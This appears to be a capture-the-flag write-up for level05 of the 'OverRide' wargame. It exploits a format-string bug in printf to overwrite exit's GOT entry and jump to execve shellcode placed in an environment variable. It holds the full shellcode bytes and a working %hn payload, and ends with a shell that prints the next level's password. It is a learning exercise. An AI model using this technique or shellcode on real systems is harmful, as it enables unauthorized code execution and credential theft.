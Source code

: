 # Level 05

<h3>source.c</h3>

```console
int main(void) {
  char str[100];       // esp+0x28
  int  index;             // esp+0x8c

  fgets(str, 100, stdin);
  index = 0;
  while (index < strlen(str)) {
    if ('@' < str[index] && str[index] < 'Z') {
      str[index] = tolower(str[index]);
    }
    index += 1;
  };
  printf(str);
  exit(0);
}
```

<h3>Analysis</h3>

The main functionally of this program is to transform all the input into lower case, and at the end it will show the output via `printf()`

This `printf()` is not protected so we could use `Format string` to exploit

As there is no `system()` available, we can use `ShellCode` to spawn a shell

Our target this time will be to use the exploit of `printf()` to overwrite the `GOT` of the `exit()` so it will be directing the program to run our `ShellCode`

<h3>Exploit</h3>

First, we need to find out which `printf()` arg we can take control of

```console
level05@OverRide:~$ ./level05
aaaa 1[%p] 2[%p] 3[%p] 4[%p] 5[%p] 6[%p] 7[%p] 8[%p] 9[%p] 10[%p] 11[%p] 12[%p]
aaaa 1[0x64] 2[0xf7fcfac0] 3[0xf7ec3af9] 4[0xffffd6af] 5[0xffffd6ae] 6[(nil)] 7[0xffffffff] 8[0xffffd734] 9[0xf7fdb000] 10[0x61616161] 11[0x255b3120] 12[0x32205d70]
```

Great, we found that the start of the `char* str` is at the 10th arg

Next we need to find the `GOT` of the `exit()`

```console
(gdb) p exit
$1 = {<text variable, no debug info>} 0x8048370 <exit@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:	push   0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

The `GOT` will be `0x80497e0` 

Now we need to put our shell code into the `ENV` and find the address 

```console
export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"`
```

```console
Breakpoint 1, 0x08048444 in main ()
(gdb) x/s *((char **)environ)
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
(gdb) x/32wx 0xffffd822
0xffffd822:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xffffd832:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd842:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd852:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd862:	0x90909090	0x90909090	0x90909090	0x90909090
```

From there we can choose any address that contain the `\x90`, and the `NOP slide` will bring us to the beginning of our `ShellCode`, example `0xffffd832`

To conclude these will all be the important information that we need

```console
printf() arg        = 10th
exit() GOT          = 0x80497e0 -> \xe0\x97\x04\x08
shellcode address   = 0xffffd832 -> 4294957106
```
Since `4294957106` is too big for `printf()`, we can split it into `2 bytes` with the `%hn` modifier, which means write short into the pointed address

So we need to write into `0x80497e0` and `0x80497e0 + 2` or `0x80497e2`

Now we need to split 0xffffd832 into 2, with little endian way

```console
d832 = 55346 - 8(the total count of the 1st address) = 55338
ffff = 65535 - 55346 = 10189
```

Now its time to build our payload and test our exploit

(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55338d' + '%10\$hn' + '%10189d' + '%11\$hn'"; cat - ) | ./level05

```console
level05@OverRide:~$ (python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55338d' + '%10\$hn' + '%10189d' + '%11\$hn'"; cat - ) | ./level05
                                             -134415680
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
